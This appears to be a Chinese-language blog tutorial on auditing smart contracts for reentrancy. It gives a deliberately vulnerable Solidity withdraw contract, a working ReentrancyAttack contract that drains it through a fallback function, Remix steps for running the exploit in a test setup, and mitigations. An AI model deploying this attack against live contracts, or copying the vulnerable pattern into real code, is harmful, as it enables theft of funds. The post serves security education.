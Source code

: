```yaml
---
layout: post_layout
title: 智能合约审计-重入攻击
time: 2020年1月8日 星期四三
location: 合肥
pulished: true
excerpt_separator: "#"
---
```


描述：漏洞合约中某个函数中，使用call()方法发送eth,若eth的接收者为一个合约地址，则会触发该合约的fallback()函数。若该合约是攻击者的恶意合约，攻击者可以在fallback()函数中重新调用漏洞合约的上述函数，导致重入攻击

核心问题：重要的合约变量在“重入”的过程中没有被修改，从而绕过了限制

# Fallback函数

概念:
    回退函数，是合约里的特殊无名函数，有且仅有一个。它在合约调用没有匹配到函数签名，或者调用没有带任何数据时被自动调用。

触发场景：

- address.send(ether_to_send)
   
- address.call().value(ether_to_send)
    
# 漏洞流程
![重入漏洞](/assets/demo/chongru.png)
# 漏洞合约分析
```sol
pragma solidity ^0.4.24;

contract ReentrancyGame {

  mapping (address => uint) public credit; //credit表示存储用户的余额

  event Deposit(address _who, uint value);  //Deposit表示充值
  event Withdraw(address _who, uint value);
    
  function deposit() payable public returns (bool) {
    credit[msg.sender] += msg.value; //credit调用deposit()函数进行充值使用msg.value进行ETH发送
    emit Deposit(msg.sender, msg.value);
    return true;
  }
    
  function withdraw(uint amount) public returns (bool) { //withdraw提币函数
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
      emit Withdraw(msg.sender, amount);
      return true;
    }
    return false;
  }  

  function creditOf(address to) public returns (uint) {
    return credit[to];
  }
}
```
漏洞点：从提币开始，首先校验credit是否大于amount(本次提现的ETH),然后使用call.value进行转账，然后再扣除余额。这里漏洞点就出在我们先使用call.value对用户进行转账，然后再减少余额。就是因为这种情况，攻击者可以反复进行withdraw(),在进入withdraw()之前，第一步的校验仍然有效，在进入withdraw()之后，credit(余额)并没有减少，第一步的校验仍然有效，攻击者才能源源不断的从合约中提取ETH

# 攻击者合约
```sol
pragma solidity ^0.4.24;

contract ReentrancyGame {

  mapping (address => uint) public credit;

  event Deposit(address _who, uint value);
  event Withdraw(address _who, uint value);
    
  function deposit() payable public returns (bool) {
    credit[msg.sender] += msg.value;
    emit Deposit(msg.sender, msg.value);
    return true;
  }
    
  function withdraw(uint amount) public returns (bool) {
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
      emit Withdraw(msg.sender, amount);
      return true;
    }
    return false;
  }  

  function creditOf(address to) public returns (uint) {
    return credit[to];
  }
  
  function checkBalance() public constant returns (uint){
      return this.balance;
  }
}

contract ReentrancyAttack {   //调用attack()函数对漏洞合约进行远远不断的偷取ETH
  ReentrancyGame public regame;
  address owner;

  function ReentrancyAttack (ReentrancyGame addr) payable { 
    owner = msg.sender;
    regame = addr;
  }

  function attack() public returns (bool){
    regame.deposit.value(1)();
    regame.withdraw(1);
    return true;
  }
  
  function geteth() public returns (bool){ 
    owner.transfer(this.balance); 
    return true;
  }

  function checkBalance() public constant returns (uint){
      return this.balance;
  }

  function() public payable { 
    regame.withdraw(1); 
  }
}
```

----------
# 使用Remix进行调试
- 首先对合约进行编译（Current version设置为0.4X，Auto compile，Enable Optimization全部勾上。编译完成后会出现2个合约分别为ReentrancyAttack，ReentrancyGame）

- 首先部署ReentrancyGame(漏洞合约)，这里Account设置一个受害者账户(0xca3...a733c)，然后点击Deploy部署完成后漏洞合约，这里还是需要充值一定数量的ETH便于实验观察（Value设置为100 wei ETH点击deposit,然后点击checkBalance查看当前受害者地址为100 wei ETH，这里受害者合约ReentrancyGame就部署完成了）

- 攻击者合约部署ReentrancyAttack(攻击者合约)，由于漏洞合约地址在提现的时候需要一定的ETH，所以这里在设置ReentrancyAttack合约的时候需要设置Value为5 wei ETH，Deploy设置为ReetrancyGame合约地址（注：这里是合约地址并不是账户地址）Account换一个账户(0x147...c160c)点击Deploy即可部署攻击者合约，部署完成后点击checkBalance查看当前账户余额为5 wei ETH,说明攻击者合约部署完成了

- 漏洞攻击-点击ReentrancyAttack(攻击者合约)attack即可攻击。攻击的过程中由于一直通过withdraw()函数进行循环提现，过程有点缓慢，等gas消耗完毕既可以查看(checkBalance)攻击者合约账号余额为51 wei ETH,再次查看ReentrancyGame(漏洞合约)账户余额为54 wei ETH,漏洞利用成功
# 漏洞预防


1. 在将 Ether 发送给外部合约时使用内置的 transfer() 函数 。transfer转账功能只发送 2300 gas 不足以使目的地址/合约调用另一份合约（即重入发送合约）。

2. 引入互斥锁。也就是说，要添加一个在代码执行过程中锁定合约的状态变量，阻止重入调用。

3. 将任何对未知地址执行外部调用的代码，放置在本地化函数或代码执行中作为最后一个操作，是一种很好的做法。这被称为 检查效果交互（checks-effects-interactions） 模式。
